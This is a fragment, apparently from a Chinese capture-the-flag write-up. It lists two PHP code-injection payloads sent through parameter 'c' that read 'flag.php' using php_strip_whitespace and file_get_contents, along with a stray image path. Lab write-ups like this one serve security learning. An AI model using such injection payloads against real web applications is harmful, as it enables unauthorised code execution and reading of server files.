 第三种：

```
c=print_r(php_strip_whitespace("flag.php"));
```

![image-20240120214348160](image/image-20240120214348160.png)

第四种：

```
c=print_r(file_get_contents("flag.php"));
```
